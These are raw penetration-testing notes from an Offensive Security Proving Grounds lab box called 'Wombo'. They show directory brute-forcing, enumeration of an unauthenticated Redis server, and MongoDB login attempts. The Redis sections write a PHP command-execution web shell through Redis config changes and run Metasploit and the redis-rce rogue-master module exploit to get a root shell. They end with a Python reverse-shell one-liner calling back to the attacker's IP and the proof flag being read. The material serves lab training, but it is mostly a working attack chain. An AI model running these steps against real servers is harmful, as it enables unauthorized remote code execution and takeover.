/Assets               (Status: 301) [Size: 179] [--> /Assets/]                     
/categories           (Status: 200) [Size: 18970]                                  
/flags                (Status: 500) [Size: 10870]                                  
Progress: 4860 / 80468 (6.04%)                                                    [ERROR] 2022/01/13 11:06:29 [!] Get "http://192.168.70.69:8080/API": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/Users                (Status: 302) [Size: 28] [--> /login]                        
/popular              (Status: 200) [Size: 18355]                                  
/notifications        (Status: 302) [Size: 28] [--> /login]                        
/ping                 (Status: 200) [Size: 3]                                      
/Register             (Status: 200) [Size: 14357]                                  
/unread               (Status: 302) [Size: 28] [--> /login]                        
/reset                (Status: 200) [Size: 12470]                                  
/Groups               (Status: 302) [Size: 28] [--> /login]                        
/Tags                 (Status: 302) [Size: 28] [--> /login]                        
/chats                (Status: 302) [Size: 28] [--> /login]                        
Progress: 27032 / 80468 (33.59%)                                                  [ERROR] 2022/01/13 11:26:59 [!] Get "http://192.168.70.69:8080/Api": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/Categories           (Status: 200) [Size: 18203]                                  
Progress: 31004 / 80468 (38.53%)                                                  [ERROR] 2022/01/13 11:30:46 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
Progress: 32564 / 80468 (40.47%)                                                  [ERROR] 2022/01/13 11:32:20 [!] Get "http://192.168.70.69:8080/compose": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/Top                  (Status: 200) [Size: 17341]                                  
/UPLOADS              (Status: 302) [Size: 52] [--> /assets/uploads/?v=7sgruj70sic]
/LOGIN                (Status: 200) [Size: 11618]                                  
/Reset                (Status: 200) [Size: 12470]                                  
                                                                                   
===============================================================
2022/01/13 12:18:20 Finished
===============================================================
                             
```

#### Robots.txt / Sitemap.xml

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ curl 192.168.123.69:8080/robots.txt                                                                                                                             1 ⨯
User-agent: *
Disallow: /admin/
Disallow: /reset/
Disallow: /compose
Sitemap: http://localhost:4567/sitemap.xml                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ curl 192.168.123.69:8080/sitemap.xml                                                                                                
<?xml version="1.0" encoding="UTF-8"?>
<sitemapindex xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
    <sitemap>
        <loc>http://localhost:4567/sitemap/pages.xml</loc>
    </sitemap>
    <sitemap>
        <loc>http://localhost:4567/sitemap/categories.xml</loc>
    </sitemap>
    
</sitemapindex>                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ curl 192.168.123.69:8080/sitemap/categories.xml | xmllint --format - 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   827  100   827    0     0   1001      0 --:--:-- --:--:-- --:--:--  1000
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" xmlns:news="http://www.google.com/schemas/sitemap-news/0.9" xmlns:xhtml="http://www.w3.org/1999/xhtml" xmlns:image="http://www.google.com/schemas/sitemap-image/1.1" xmlns:video="http://www.google.com/schemas/sitemap-video/1.1">
  <url>
    <loc>http://localhost:4567/category/1/announcements</loc>
    <changefreq>weekly</changefreq>
    <priority>0.4</priority>
  </url>
  <url>
    <loc>http://localhost:4567/category/2/general-discussion</loc>
    <changefreq>weekly</changefreq>
    <priority>0.4</priority>
  </url>
  <url>
    <loc>http://localhost:4567/category/4/comments-feedback</loc>
    <changefreq>weekly</changefreq>
    <priority>0.4</priority>
  </url>
  <url>
    <loc>http://localhost:4567/category/3/blogs</loc>
    <changefreq>weekly</changefreq>
    <priority>0.4</priority>
  </url>
</urlset>
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ curl 192.168.123.69:8080/sitemap/pages.xml | xmllint --format - 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   744  100   744    0     0   2107      0 --:--:-- --:--:-- --:--:--  2162
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" xmlns:news="http://www.google.com/schemas/sitemap-news/0.9" xmlns:xhtml="http://www.w3.org/1999/xhtml" xmlns:image="http://www.google.com/schemas/sitemap-image/1.1" xmlns:video="http://www.google.com/schemas/sitemap-video/1.1">
  <url>
    <loc>http://localhost:4567/</loc>
    <changefreq>weekly</changefreq>
    <priority>0.6</priority>
  </url>
  <url>
    <loc>http://localhost:4567/recent</loc>
    <changefreq>daily</changefreq>
    <priority>0.4</priority>
  </url>
  <url>
    <loc>http://localhost:4567/users</loc>
    <changefreq>daily</changefreq>
    <priority>0.4</priority>
  </url>
  <url>
    <loc>http://localhost:4567/groups</loc>
    <changefreq>daily</changefreq>
    <priority>0.4</priority>
  </url>
</urlset>
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ 

```

#### Searchsploit




### 6379 - Redis

#### Interaction

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ redis-cli -h 192.168.123.69                       
192.168.123.69:6379> info
# Server
redis_version:5.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:85c881476bf91b2f
redis_mode:standalone
os:Linux 4.9.0-12-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:6.3.0
process_id:551
run_id:12c8ca20733542e05dd759b32d34c6683840950b
tcp_port:6379
uptime_in_seconds:14912917
uptime_in_days:172
hz:10
configured_hz:10
lru_clock:14830681
executable:/usr/local/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:4
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:854240
used_memory_human:834.22K
used_memory_rss:5144576
used_memory_rss_human:4.91M
used_memory_peak:854240
used_memory_peak_human:834.22K
used_memory_peak_perc:100.00%
used_memory_overhead:841038
used_memory_startup:791344
used_memory_dataset:13202
used_memory_dataset_perc:20.99%
allocator_allocated:1385696
allocator_active:1798144
allocator_resident:8564736
total_system_memory:1044795392
total_system_memory_human:996.39M
used_memory_lua:37888
used_memory_lua_human:37.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.30
allocator_frag_bytes:412448
allocator_rss_ratio:4.76
allocator_rss_bytes:6766592
rss_overhead_ratio:0.60
rss_overhead_bytes:-3420160
mem_fragmentation_ratio:6.33
mem_fragmentation_bytes:4332336
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.1.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1627307716
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:4
total_commands_processed:6
instantaneous_ops_per_sec:0
total_net_input_bytes:150
total_net_output_bytes:18199
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:c6cbf82d782b38efee037371f63e94e989209e3d
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:1.760000
used_cpu_user:1.760000
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
192.168.123.69:6379> client list
id=6 addr=192.168.49.123:60860 fd=7 name= age=30 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=26 qbuf-free=32742 obl=0 oll=0 omem=0 events=r cmd=client
192.168.123.69:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "cluster-announce-ip"
  8) ""
  9) "unixsocket"
 10) ""
 11) "logfile"
 12) "/var/log/redis/redis-server.log"
 13) "pidfile"
 14) "/var/run/redis/redis-server.pid"
 15) "slave-announce-ip"
 16) ""
 17) "replica-announce-ip"
 18) ""
 19) "maxmemory"
 20) "0"
 21) "proto-max-bulk-len"
 22) "536870912"
 23) "client-query-buffer-limit"
 24) "1073741824"
 25) "maxmemory-samples"
 26) "5"
 27) "lfu-log-factor"
 28) "10"
 29) "lfu-decay-time"
 30) "1"
 31) "timeout"
 32) "0"
 33) "active-defrag-threshold-lower"
 34) "10"
 35) "active-defrag-threshold-upper"
 36) "100"
 37) "active-defrag-ignore-bytes"
 38) "104857600"
 39) "active-defrag-cycle-min"
 40) "5"
 41) "active-defrag-cycle-max"
 42) "75"
 43) "active-defrag-max-scan-fields"
 44) "1000"
 45) "auto-aof-rewrite-percentage"
 46) "100"
 47) "auto-aof-rewrite-min-size"
 48) "67108864"
 49) "hash-max-ziplist-entries"
 50) "512"
 51) "hash-max-ziplist-value"
 52) "64"
 53) "stream-node-max-bytes"
 54) "4096"
 55) "stream-node-max-entries"
 56) "100"
 57) "list-max-ziplist-size"
 58) "-2"
 59) "list-compress-depth"
 60) "0"
 61) "set-max-intset-entries"
 62) "512"
 63) "zset-max-ziplist-entries"
 64) "128"
 65) "zset-max-ziplist-value"
 66) "64"
 67) "hll-sparse-max-bytes"
 68) "3000"
 69) "lua-time-limit"
 70) "5000"
 71) "slowlog-log-slower-than"
 72) "10000"
 73) "latency-monitor-threshold"
 74) "0"
 75) "slowlog-max-len"
 76) "128"
 77) "port"
 78) "6379"
 79) "cluster-announce-port"
 80) "0"
 81) "cluster-announce-bus-port"
 82) "0"
 83) "tcp-backlog"
 84) "511"
 85) "databases"
 86) "16"
 87) "repl-ping-slave-period"
 88) "10"
 89) "repl-ping-replica-period"
 90) "10"
 91) "repl-timeout"
 92) "60"
 93) "repl-backlog-size"
 94) "1048576"
 95) "repl-backlog-ttl"
 96) "3600"
 97) "maxclients"
 98) "10000"
 99) "watchdog-period"
100) "0"
101) "slave-priority"
102) "100"
103) "replica-priority"
104) "100"
105) "slave-announce-port"
106) "0"
107) "replica-announce-port"
108) "0"
109) "min-slaves-to-write"
110) "0"
111) "min-replicas-to-write"
112) "0"
113) "min-slaves-max-lag"
114) "10"
115) "min-replicas-max-lag"
116) "10"
117) "hz"
118) "10"
119) "cluster-node-timeout"
120) "15000"
121) "cluster-migration-barrier"
122) "1"
123) "cluster-slave-validity-factor"
124) "10"
125) "cluster-replica-validity-factor"
126) "10"
127) "repl-diskless-sync-delay"
128) "5"
129) "tcp-keepalive"
130) "300"
131) "cluster-require-full-coverage"
132) "yes"
133) "cluster-slave-no-failover"
134) "no"
135) "cluster-replica-no-failover"
136) "no"
137) "no-appendfsync-on-rewrite"
138) "no"
139) "slave-serve-stale-data"
140) "yes"
141) "replica-serve-stale-data"
142) "yes"
143) "slave-read-only"
144) "yes"
145) "replica-read-only"
146) "yes"
147) "slave-ignore-maxmemory"
148) "yes"
149) "replica-ignore-maxmemory"
150) "yes"
151) "stop-writes-on-bgsave-error"
152) "yes"
153) "daemonize"
154) "yes"
155) "rdbcompression"
156) "yes"
157) "rdbchecksum"
158) "yes"
159) "activerehashing"
160) "yes"
161) "activedefrag"
162) "no"
163) "protected-mode"
164) "no"
165) "repl-disable-tcp-nodelay"
166) "no"
167) "repl-diskless-sync"
168) "no"
169) "aof-rewrite-incremental-fsync"
170) "yes"
171) "rdb-save-incremental-fsync"
172) "yes"
173) "aof-load-truncated"
174) "yes"
175) "aof-use-rdb-preamble"
176) "yes"
177) "lazyfree-lazy-eviction"
178) "no"
179) "lazyfree-lazy-expire"
180) "no"
181) "lazyfree-lazy-server-del"
182) "no"
183) "slave-lazy-flush"
184) "no"
185) "replica-lazy-flush"
186) "no"
187) "dynamic-hz"
188) "yes"
189) "maxmemory-policy"
190) "noeviction"
191) "loglevel"
192) "notice"
193) "supervised"
194) "no"
195) "appendfsync"
196) "everysec"
197) "syslog-facility"
198) "local0"
199) "appendonly"
200) "no"
201) "dir"
202) "/"
203) "save"
204) ""
205) "client-output-buffer-limit"
206) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
207) "unixsocketperm"
208) "0"
209) "slaveof"
210) ""
211) "notify-keyspace-events"
212) ""
213) "bind"
214) "0.0.0.0"
192.168.123.69:6379> 
```

#### Exploiting Test

##### lua Test

https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html

```
192.168.123.69:6379> eval "return 10" 0
(integer) 10
192.168.123.69:6379> EVAL "dofile('/etc/passwd')" 0 
(error) ERR Error running script (call to f_afdc51b5f9e34eced5fae459fc1d856af181aaf1): @enable_strict_lua:15: user_script:1: Script attempted to access nonexistent global variable 'dofile' 
192.168.123.69:6379> 

```

##### Webshell

```
192.168.123.69:6379> config set dir /usr/share/nginx/html
OK
192.168.123.69:6379> config set dbfilename redis.php
OK
192.168.123.69:6379> set test "<form method='GET'><input type='TEXT' name='cmd' id='cmd' size='80'><input type='SUBMIT' value='Execute'></form><pre><?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?></pre>"
OK
192.168.123.69:6379> save
OK
192.168.123.69:6379> 

```

```
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/index.html
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/index     
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/index.php 
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/         
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>

```

##### SSH Key

I reset the machine to get the initial dir


#### Webshell V2, File write test

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ redis-cli -h 192.168.123.69 
192.168.123.69:6379> config get dir
1) "dir"
2) "/"
192.168.123.69:6379> config set dir /root
OK
192.168.123.69:6379> config set dir /root/.ssh
(error) ERR Changing directory: No such file or directory
192.168.123.69:6379> config set dir /var/www/html/.ssh
(error) ERR Changing directory: No such file or directory
192.168.123.69:6379> config set dir /var/www/html/
OK
192.168.123.69:6379> config set dbfilename redis.php
OK
192.168.123.69:6379> set test "<form method='GET'><input type='TEXT' name='cmd' id='cmd' size='80'><input type='SUBMIT' value='Execute'></form><pre><?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?></pre>"
OK
192.168.123.69:6379> save
OK
192.168.123.69:6379> 

```


```
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php --output                                                                                                                         23 ⨯
curl: option --output: requires parameter
curl: try 'curl --help' or 'curl --manual' for more information
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php --output -                                                                                                                        2 ⨯
REDIS0009�      redis-ver5.0.9�
�edis-bits�@�ctime�;T�aused-mem��
 aof-preamble���test�@�@�<form method='GET'><input type=TEXT' nam 
                                                                  cmd' i &siz 80�0SUBMI 2valu Execute $/@i><pre><?php if(isset($_ w[`U  ])){system�;} ? B <>��D����,                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ 

```

Write phpinfo

```
192.168.123.69:6379> set test "<?php phpinfo(); ?>"
OK
192.168.123.69:6379> save
OK
192.168.123.69:6379> 
```


```
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php --output - 
REDIS0009�      redis-ver5.0.9�
�edis-bits�@�ctime³T�aused-mem�H
 aof-preamble���test<?php phpinfo(); ?>��mia
                                            �                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ 

```


Write to html file

```
192.168.123.69:6379> config set dbfilename redis.html
OK
192.168.123.69:6379> save
OK
192.168.123.69:6379> 

```

```
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.html --output - -v
*   Trying 192.168.123.69:80...
* Connected to 192.168.123.69 (192.168.123.69) port 80 (#0)
> GET /redis.html HTTP/1.1
> Host: 192.168.123.69
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.10.3
< Date: Sat, 15 Jan 2022 05:06:14 GMT
< Content-Type: text/html
< Content-Length: 123
< Last-Modified: Sat, 15 Jan 2022 05:04:58 GMT
< Connection: keep-alive
< ETag: "61e255fa-7b"
< Accept-Ranges: bytes
< 
REDIS0009�      redis-ver5.0.9�
* Connection #0 to host 192.168.123.69 left intact
�edis-bits�@�ctime��U�aused-mem�H
 aof-preamble���test<?php phpinfo(); ?>�Z���i[                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ curl 192.168.123.69/redis.php --output - -v
*   Trying 192.168.123.69:80...
* Connected to 192.168.123.69 (192.168.123.69) port 80 (#0)
> GET /redis.php HTTP/1.1
> Host: 192.168.123.69
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.10.3
< Date: Sat, 15 Jan 2022 05:06:18 GMT
< Content-Type: application/octet-stream
< Content-Length: 123
< Last-Modified: Sat, 15 Jan 2022 04:59:31 GMT
< Connection: keep-alive
< ETag: "61e254b3-7b"
< Accept-Ranges: bytes
< 
REDIS0009�      redis-ver5.0.9�
* Connection #0 to host 192.168.123.69 left intact
�edis-bits�@�ctime³T�aused-mem�H
 aof-preamble���test<?php phpinfo(); ?>��mia
                                            �                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ 

```

##### Cronjob

#### Master Slave

https://github.com/Ridter/redis-rce

```
┌──(kali㉿kali)-[/tmp/redis-rce]
└─$ python redis-rce.py -r 192.168.123.69  -L 192.168.49.123  -f ../RedisModules-ExecuteCommand/module.so

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.123.69:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.123.69:6379
[*] Setting filename
[+] Accepted connection from 192.168.123.69:6379
[*] Start listening on 192.168.49.123:21000
[*] Tring to run payload
[-] Error: timed out, exit
[*] Clean up..
                                                                                                                                                                        
┌──(kali㉿kali)-[
```


#### Metasploit


```
msf5 exploit(linux/redis/redis_replication_cmd_exec) > run

[*] Started reverse TCP handler on 192.168.49.123:4444 
[*] 192.168.123.69:6379   - Compile redis module extension file
[+] 192.168.123.69:6379   - Payload generated successfully! 
[*] 192.168.123.69:6379   - Listening on 192.168.49.123:6379
[*] 192.168.123.69:6379   - Rogue server close...
[*] 192.168.123.69:6379   - Sending command to trigger payload.
[!] 192.168.123.69:6379   - This exploit may require manual cleanup of './qlrbvrm.so' on the target
[*] Exploit completed, but no session was created.
msf5 exploit(linux/redis/redis_replication_cmd_exec) > run

[*] Started reverse TCP handler on 192.168.49.123:4444 
[*] 192.168.123.69:6379   - Compile redis module extension file
[+] 192.168.123.69:6379   - Payload generated successfully! 
[*] 192.168.123.69:6379   - Listening on 192.168.49.123:6379
^C[-] 192.168.123.69:6379   - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
msf5 exploit(linux/redis/redis_replication_cmd_exec) > 
```


### 27017 - MongoDB

#### Interaction
```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ mongo 192.168.123.69
MongoDB shell version v5.0.5
connecting to: mongodb://192.168.123.69:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("b44de69a-8e2c-42bd-8b6b-844141d3aafe") }
MongoDB server version: 4.0.18
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
> use nodebb
switched to db nodebb
> show dbs
> show collections
Warning: unable to run listCollections, attempting to approximate collection names by parsing connectionStatus
> db.current.find({})
Error: error: {
        "ok" : 0,
        "errmsg" : "command find requires authentication",
        "code" : 13,
        "codeName" : "Unauthorized"
}
> exit
bye
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ mongo 192.168.123.69 -u admin -p admin
MongoDB shell version v5.0.5
connecting to: mongodb://192.168.123.69:27017/test?compressors=disabled&gssapiServiceName=mongodb
Error: Authentication failed. :
connect@src/mongo/shell/mongo.js:372:17
@(connect):2:6
exception: connect failed
exiting with code 1
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ mongo 192.168.123.69 -u nodebb -p admin                                                                                                                         1 ⨯
MongoDB shell version v5.0.5
connecting to: mongodb://192.168.123.69:27017/test?compressors=disabled&gssapiServiceName=mongodb
Error: Authentication failed. :
connect@src/mongo/shell/mongo.js:372:17
@(connect):2:6
exception: connect failed
exiting with code 1
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$         
```

## Exploit

https://github.com/Ridter/redis-rce

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand


```
                                                                                                                                                                        
┌──(kali㉿kali)-[/tmp]
└─$ git clone https://github.com/Ridter/redis-rce.git
Cloning into 'redis-rce'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (1/1), done.
remote: Total 18 (delta 0), reused 0 (delta 0), pack-reused 17
Receiving objects: 100% (18/18), 15.19 KiB | 7.59 MiB/s, done.
Resolving deltas: 100% (6/6), done.
                                                                                                                                                                        
┌──(kali㉿kali)-[/tmp]
└─$ cd redis-rce 

┌──(kali㉿kali)-[/tmp/redis-rce]
└─$ sudo python redis-rce.py -r 192.168.123.69  -L 192.168.49.123  -f ../RedisModules-ExecuteCommand/module.so -P 6379                                              1 ⨯

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.123.69:6379...
^CTraceback (most recent call last):
  File "redis-rce.py", line 271, in <module>
    main()
  File "redis-rce.py", line 266, in main
    runserver(options.rhost, options.rport, options.lhost, options.lport)
  File "redis-rce.py", line 205, in runserver
    info = remote.do("INFO")
  File "redis-rce.py", line 83, in do
    buf = self.recv()
  File "redis-rce.py", line 79, in recv
    return din(self._sock, cnt)
  File "redis-rce.py", line 37, in din
    msg = sock.recv(cnt)
KeyboardInterrupt
                                                                                                                                                                        
┌──(kali㉿kali)-[/tmp/redis-rce]
└─$ sudo python redis-rce.py -r 192.168.123.69  -L 192.168.49.123  -f ../RedisModules-ExecuteCommand/module.so -P 6379                                              1 ⨯

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.123.69:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.123.69:6379
[*] Setting filename
[+] Accepted connection from 192.168.123.69:6379
[*] Start listening on 192.168.49.123:6379
[*] Tring to run payload
[+] Accepted connection from 192.168.123.69:44985
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i
[+] Interactive shell open , use "exit" to exit...
$ whoami
$ help
eroot
$ 
 
$ whoami
$ 
root
$ cd /root
$ 
$ ls
$ 
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
module.so
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ ls /root
$ 
proof.txt
$ cat /root/proof.txt
$ 
152984af97f4f0a362145633b738d3b7
$ ifconfig
$ 
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.123.69  netmask 255.255.255.0  broadcast 192.168.123.255
        ether 00:50:56:ba:59:f9  txqueuelen 1000  (Ethernet)
        RX packets 268  bytes 74838 (73.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 295  bytes 28365 (27.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1  (Local Loopback)
        RX packets 2742  bytes 295242 (288.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2742  bytes 295242 (288.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
$ ls /usr/bin | grep python
$ 
dh_python2
dh_python3
python
python2
python2.7
python3
python3.5
python3.5m
python3m
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.123",6379));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
$ 

```


```
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 6379                                                                                                                                              1 ⨯
[sudo] password for kali: 
listening on [any] 6379 ...
connect to [192.168.49.123] from (UNKNOWN) [192.168.123.69] 46976
root@wombo:/# cd /root
cd /root
root@wombo:~# cat proof.txt
cat proof.txt
152984af97f4f0a362145633b738d3b7
root@wombo:~# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.123.69  netmask 255.255.255.0  broadcast 192.168.123.255
        ether 00:50:56:ba:59:f9  txqueuelen 1000  (Ethernet)
        RX packets 502  bytes 91603 (89.4 KiB)
